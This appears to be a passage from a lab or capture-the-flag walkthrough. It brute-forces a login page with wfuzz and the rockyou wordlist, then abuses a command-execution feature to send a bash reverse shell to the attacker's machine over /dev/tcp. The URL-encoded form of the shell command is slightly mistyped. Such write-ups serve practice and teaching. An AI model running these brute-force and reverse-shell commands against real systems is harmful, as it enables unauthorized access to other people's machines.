







::: page
# Bruteforcing {#bruteforcing .title}

\

Since nothing was found, lets try to **bruteforce the login page** found
on **port 80.**

To do this lets first check what it returns for a wrong passsword :

Checked **dev tools \-\-\-\-- Network \-\-\-\-\-\-- reload**

This showed us this endpoints :

**POST redirects to login.php so we will use this to bruteforce.**

Using Burp was very slow for a large wordlist like rockyou.txt, and
hydra also needed parameters to check for sucessful credentials, so we
used a tool called **wfuzz** :

**wfuzz -w /usr/share/wordlists/rockyou.txt -d
\"username=admin&password=FUZZ\" \--hw 17**
**<http://192.168.56.120/login.php>**

**hw \-- stands for hide words**

**17 \-- This tells wfuzz to completely hide any HTTP response from the
screen that contains exactly 17 words.**

When a login fails, the website usually returns a standard error page
**(eg. Invalid Password),** If that error page always contains exactly
**17 words use hw\-- 17 to hide those errors.**

So now :

We got the password '**happy**'.

After login we got this :

We clicked on run and it executed **ls -l** :

**Lets intercept this request with burp to test different commands** :

We changed it to **id** and its returning a low level user **www-data**

Lets **send a shell to our machine** :

**bash -c "bash -i \>& /dev/tcp/192.168.56.1/8000 0\>&1"**

But in url encoding we have to **replace & with %26** :

**bash -c "bash -i \>%26 /dev/tcp/192.168.56.1/8000 0\>&261"**

**We forwared this request and got a shell** :

We got a **low level user**.
:::
